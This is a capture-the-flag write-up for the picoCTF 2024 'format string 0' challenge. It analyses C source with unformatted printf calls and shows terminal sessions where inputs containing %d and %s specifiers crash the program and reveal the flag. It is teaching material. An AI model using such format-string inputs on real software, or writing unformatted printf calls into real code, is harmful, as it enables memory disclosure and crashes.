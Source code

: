# format string 0

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Level: Easy
Tags: picoCTF 2024, Binary Exploitation, format_string, browser_webshell_solvable
Author: CHENG ZHANG

Description:
Can you use your knowledge of format strings to make the customers happy?

Download the binary here.
Download the source here.

Connect with the challenge instance here:
nc mimas.picoctf.net 58598
 
Hints:
1. This is an introduction of format string vulnerabilities. Look up "format specifiers" 
   if you have never seen them before.
2. Just try out the different options
```
Challenge link: [https://play.picoctf.org/practice/challenge/433](https://play.picoctf.org/practice/challenge/433)

## Solution

### Analyse the C file

We start by analysing the rather long C source code. First the `main` function.
```c
int main(int argc, char **argv){
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                        "own debugging flag.\n");
        exit(0);
    }

    fgets(flag, FLAGSIZE, f);
    signal(SIGSEGV, sigsegv_handler);

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    serve_patrick();
  
    return 0;
}
```
Main basically does the following:
- Make sure there is a `flag.txt` file available, 
- Sets up a signal handler for `SIGSEGV` (Invalid memory references)
- Sets permissions (user and group IDs) with `setresgid`
- Calls the `serve_patrick` function

If an invalid memory reference happens the `sigsegv_handler` function is called
```c
void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}
```
and will display the flag for us.

Let's skip the rest of the source code for now and try out the binary.

### Run the binary locally

Next, we run the binary
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_0]
└─$ ./format-string-0  
Please create 'flag.txt' in this directory with your own debugging flag.

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_0]
└─$ echo "picoCTF{fake_flag}" > flag.txt                                        

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_0]
└─$ ./format-string-0                  
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak

picoCTF{fake_flag}


┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_0]
└─$ 
```
Of the choices I chose `Gr%114d_Cheese` and `Cla%sic_Che%s%steak` because the both contains [format specifiers](https://www.freecodecamp.org/news/format-specifiers-in-c/) which will cause the program to remove additional items on [the stack](https://en.wikipedia.org/wiki/Stack-based_memory_allocation) and cause an invalid memory reference.

The vulnerabilities are in the `printf` calls without one or more format specifiers, i.e.
- The line `int count = printf(choice1);` in the `serve_patrick` function and
- The line `printf(choice2);` in the `serve_bob` function

### Get the flag

Finally, we connect to the site vith netcat and gives the same answers to get the real flag
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_0]
└─$ nc mimas.picoctf.net 58598
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{<REDACTED>}

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_0]
└─$ 
```

For additional information, please see the references below.

## References

- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [setresuid - Linux manual page](https://man7.org/linux/man-pages/man2/setresuid.2.html)
- [signal - Linux manual page](https://man7.org/linux/man-pages/man7/signal.7.html)
- [freeCodeCamp - Format Specifiers in C](https://www.freecodecamp.org/news/format-specifiers-in-c/)
- [Wikipedia - Stack-based memory allocation](https://en.wikipedia.org/wiki/Stack-based_memory_allocation)
- [Wikipedia - Uncontrolled format string](https://en.wikipedia.org/wiki/Uncontrolled_format_string)
